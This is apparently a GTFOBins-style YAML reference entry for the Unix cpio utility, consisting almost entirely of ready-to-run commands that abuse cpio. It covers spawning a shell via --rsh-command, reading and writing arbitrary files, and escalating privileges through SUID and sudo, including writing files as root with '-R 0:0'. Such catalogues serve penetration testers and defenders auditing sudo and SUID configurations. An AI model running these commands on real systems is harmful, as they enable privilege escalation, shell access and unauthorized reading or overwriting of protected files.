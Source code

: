 ```yaml
---
functions:
  shell:
    - code: |
        echo '/bin/sh </dev/tty >/dev/tty' >localhost
        cpio -o --rsh-command /bin/sh -F localhost:
  file-read:
    - description: The content of the file is printed to standard output, between the cpio archive format header and footer.
      code: |
        LFILE=file_to_read
        echo "$LFILE" | cpio -o
    - description: The whole directory structure is copied to `$TF`.
      code: |
        LFILE=file_to_read
        TF=$(mktemp -d)
        echo "$LFILE" | cpio -dp $TF
        cat "$TF/$LFILE"
  file-write:
    - description: Copies `$LFILE` to the `$LDIR` directory.
      code: |
        LFILE=file_to_write
        LDIR=where_to_write
        echo DATA >$LFILE
        echo $LFILE | cpio -up $LDIR
  suid:
    - description: The whole directory structure is copied to `$TF`.
      code: |
        LFILE=file_to_read
        TF=$(mktemp -d)
        echo "$LFILE" | ./cpio -R $UID -dp $TF
        cat "$TF/$LFILE"
    - description: Copies `$LFILE` to the `$LDIR` directory.
      code: |
        LFILE=file_to_write
        LDIR=where_to_write
        echo DATA >$LFILE
        echo $LFILE | ./cpio -R 0:0 -p $LDIR
  sudo:
    - code: |
        echo '/bin/sh </dev/tty >/dev/tty' >localhost
        sudo cpio -o --rsh-command /bin/sh -F localhost:
    - description: The whole directory structure is copied to `$TF`.
      code: |
        LFILE=file_to_read
        TF=$(mktemp -d)
        echo "$LFILE" | sudo cpio -R $UID -dp $TF
        cat "$TF/$LFILE"
    - description: Copies `$LFILE` to the `$LDIR` directory.
      code: |
        LFILE=file_to_write
        LDIR=where_to_write
        echo DATA >$LFILE
        echo $LFILE | sudo cpio -R 0:0 -p $LDIR
---
```

